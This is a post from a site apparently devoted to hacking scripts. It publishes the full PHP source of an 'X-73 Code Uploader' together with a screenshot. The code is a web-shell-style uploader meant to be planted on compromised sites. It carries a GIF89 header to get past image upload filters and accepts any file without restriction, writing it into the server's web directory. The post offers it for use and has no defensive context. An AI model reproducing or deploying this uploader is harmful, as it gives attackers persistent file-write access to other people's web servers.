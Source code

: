 ```yaml
---
id: 245
title: X-73 Code Uploader
author: admin
layout: post
guid: http://hackingscripts.com/?p=245
permalink: /x-73-code-uploader/
categories:
  - PHP
tags:
  - PHP
  - X-73
---
```

&#8211;==@[&#8211; X-73 CODE UPLOADER &#8211;]==&#8211;

## X-73 Code Uploader Source Code

<pre class="brush: php; title: ; notranslate" title="">GIF89;a
&lt;?php
    $myUpload = new maxUpload(); 
    //$myUpload-&gt;setUploadLocation(getcwd().DIRECTORY_SEPARATOR);
    $myUpload-&gt;uploadFile();
?&gt;
&lt;?php
class maxUpload{
    var $uploadLocation;
    
    /**
     * Constructor to initialize class varaibles
     * The uploadLocation will be set to the actual 
     * working directory
     *
     * @return maxUpload
     */
    function maxUpload(){
        $this-&gt;uploadLocation = getcwd().DIRECTORY_SEPARATOR;
    }

    /**
     * This function sets the directory where to upload the file
     * In case of Windows server use the form: c:\\temp\\
     * In case of Unix server use the form: /tmp/
     *
     * @param String Directory where to store the files
     */
    function setUploadLocation($dir){
        $this-&gt;uploadLocation = $dir;
    }
    
    function showUploadForm($msg='',$error=''){
?&gt;
       &lt;div id="container"&gt;
            &lt;div id="header"&gt;&lt;div id="header_left"&gt;&lt;/div&gt;
            &lt;div id="header_main"&gt;SUL-BAR LINK&lt;div id="header_right"&gt;&lt;/div&gt;&lt;/div&gt;
            &lt;div id="content"&gt;
&lt;?php
if ($msg != ''){
    echo '&lt;p class="msg"&gt;'.$msg.'&lt;/p&gt;';
} else if ($error != ''){
    echo '&lt;p class="emsg"&gt;'.$error.'&lt;/p&gt;';

}
?&gt;
&lt;body bgcolor="#000000"&gt;&lt;center&gt;&lt;div style="background-image:url(''); width="1040" height="710" class="shakeimage" onMouseOver="init(this);rattleimage()" onMouseOut="stoprattle(this);top.focus()" onClick="top.focus()" alt="" border="0"&gt;&lt;br&gt;&lt;div
id="example1"&gt;&lt;/div&gt;&lt;p id="example2"&gt;&lt;font face="Papyrus"; color="red"; size="6"&gt;&lt;br&gt;--==@[-- X-73 CODE UPLOADER --]==--

                &lt;form action="" method="post" enctype="multipart/form-data" &gt;
                     &lt;center&gt;
                         &lt;label&gt;File:
                             &lt;input name="myfile" type="file" size="30" /&gt;
                         &lt;/label&gt;
                         &lt;label&gt;
                             &lt;input type="submit" name="submitBtn" class="sbtn" value="Upload" /&gt;
                         &lt;/label&gt;
                     &lt;/center&gt;
                 &lt;/form&gt;
             &lt;/div&gt;
             &lt;div id="footer"&gt;&lt;a href="http://www.sekedar-online.com" target="_blank"&gt;Sulbar-Link&lt;/a&gt;&lt;/div&gt;
         &lt;/div&gt;
&lt;?php
    }

    function uploadFile(){
        if (!isset($_POST['submitBtn'])){
            $this-&gt;showUploadForm();
        } else {
            $msg = '';
            $error = '';
            
            //Check destination directory
            if (!file_exists($this-&gt;uploadLocation)){
                $error = "The target directory doesn't exists!";
            } else if (!is_writeable($this-&gt;uploadLocation)) {
                $error = "The target directory is not writeable!";
            } else {
                $target_path = $this-&gt;uploadLocation . basename( $_FILES['myfile']['name']);

                if(@move_uploaded_file($_FILES['myfile']['tmp_name'], $target_path)) {
                    $msg = basename( $_FILES['myfile']['name']).
                    " File anda sukses di Upload!";
                } else{
                    $error = "Proses Upload terganggu!";
                }
            }

            $this-&gt;showUploadForm($msg,$error);
        }

    }

}
?&gt;
</pre>

## X-73 Code Uploader screenshot<figure id="attachment_434" style="width: 604px;" class="wp-caption aligncenter">

[<img src="http://hackingscripts.com/wp/wp-content/uploads/2014/02/x-73-code-uploader-1024x351.png" alt="X-73 code uploader screenshot" width="604" height="207" class="size-large wp-image-434" />][1]<figcaption class="wp-caption-text">X-73 code uploader screenshot</figcaption></figure>

 [1]: http://hackingscripts.com/wp/wp-content/uploads/2014/02/x-73-code-uploader.png